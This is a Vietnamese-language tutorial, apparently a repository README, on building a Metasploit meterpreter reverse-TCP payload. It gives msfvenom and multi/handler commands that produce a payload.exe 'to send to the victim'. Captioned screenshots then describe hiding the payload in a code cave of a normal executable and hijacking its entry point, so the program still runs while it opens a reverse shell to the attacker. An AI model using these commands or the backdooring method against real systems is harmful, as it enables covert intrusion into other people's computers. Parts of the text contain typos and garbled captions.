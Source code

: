 Để tạo payload bằng Metasploit (Metasploit Framework), bạn có thể sử dụng các module và lệnh được cung cấp trong Metasploit. Dưới đây là hướng dẫn cơ bản để tạo một payload sử dụng **Metasploit**:

### Bước 1: Cài đặt Metasploit Framework
Trước tiên, nếu bạn chưa cài đặt Metasploit, hãy làm theo các bước sau:

- Trên **Kali Linux** (hoặc các bản phân phối khác dựa trên Debian), bạn có thể cài đặt Metasploit bằng lệnh:
  ```bash
  sudo apt update
  sudo apt install metasploit-framework
  ```
- Trên **Ubuntu** : 
  ```bash
  sudo apt update
  ssudo snap install metasploit-framework
  ```

- Trên **Windows**, bạn có thể tải xuống bộ cài đặt Metasploit từ trang web chính thức của Metasploit: https://www.metasploit.com.

### Bước 2: Mở Metasploit
Mở terminal và chạy lệnh sau để khởi động Metasploit:
```bash
msfconsole
```

### Bước 3: Chọn và cấu hình Payload
Metasploit cung cấp rất nhiều payloads để chọn. Dưới đây là ví dụ về cách tạo một payload đơn giản.

1. **Chọn một payload**:
   Sử dụng lệnh `use` để chọn payload mong muốn. Ví dụ, nếu bạn muốn tạo một payload cho Windows, bạn có thể chọn một payload reverse TCP như sau:
   ```bash
   use windows/meterpreter/reverse_tcp
   ```

2. **Cấu hình các tùy chọn cho payload**:
   Sau khi chọn payload, bạn cần cấu hình các tùy chọn cần thiết. Bạn có thể kiểm tra các tùy chọn có sẵn bằng lệnh `show options`:
   ```bash
   show options
   ```

   Các tùy chọn cần thiết thường bao gồm:
   - **LHOST**: Địa chỉ IP của máy tấn công (máy sẽ nhận kết nối).
   - **LPORT**: Cổng mà payload sẽ sử dụng để kết nối.
   
   Ví dụ, bạn có thể cấu hình các tùy chọn như sau:
   ```bash
   set LHOST 172.21.224.1  # Địa chỉ IP của máy tấn công
   set LPORT 4444          # Cổng mà payload sẽ sử dụng
   ```

### Bước 4: Tạo Payload
Khi bạn đã cấu hình đầy đủ payload, bạn có thể tạo nó. Dưới đây là hai cách để tạo payload:

1. **Tạo payload dưới dạng một file để gửi cho nạn nhân**:
   Nếu bạn muốn tạo một payload và lưu nó vào một file để gửi cho nạn nhân (ví dụ như một file `.exe`), bạn có thể sử dụng lệnh `generate` hoặc `msfvenom`. Ví dụ:
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST= 172.21.224.1 LPORT=4444 -f exe > payload.exe
   ```

   Lệnh này sẽ tạo một file `payload.exe`, mà bạn có thể gửi cho nạn nhân.

2. **Tạo một payload và gửi trực tiếp qua network**:
   Bạn có thể sử dụng Metasploit để tạo và quản lý payload trực tiếp qua mạng mà không cần tạo file. Ví dụ, sau khi cấu hình payload, bạn có thể tạo kết nối thông qua lệnh `exploit`:
   ```bash
   exploit
   ```

### Bước 5: Chạy Listener (Listener) và chờ kết nối
Sau khi tạo payload và gửi nó tới nạn nhân (hoặc thử tấn công theo cách khác), bạn cần chạy listener để chờ kết nối từ payload. Ví dụ:
```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 172.21.224.1
set LPORT 4444
exploit
```

Khi nạn nhân chạy payload (tệp `.exe` mà bạn đã tạo), một kết nối sẽ được thiết lập giữa máy của bạn và máy của nạn nhân, và bạn sẽ có quyền truy cập vào máy nạn nhân qua **Meterpreter**.


**HEX view của payload \n**

![alt text](image-4.png)

**Chèn payload vào k gian trôgns của exe**

![alt text](image-3.png)

**sửa entry point Jmp đến điểm bắt đầu của payload** 

![alt text](image-7.png)

**Sử dụng Pushad và Pushfd đẻ lưu lại giá trị của các thanh ghi và flag**

![alt text](image-1.png)

**Sử dụng Popad và Popfd đẻ khôi phục trạng thái thanh ghi ban đầu** 

**Phải trả lại entrypoint ban đâu đẻ trương trình chạy bình thường**

![alt text](image-6.png)

**Khi người dùng run Payload này chẽ mở 1 reverse Shell đến máy của kẻ tấn công** 

![alt text](image-5.png)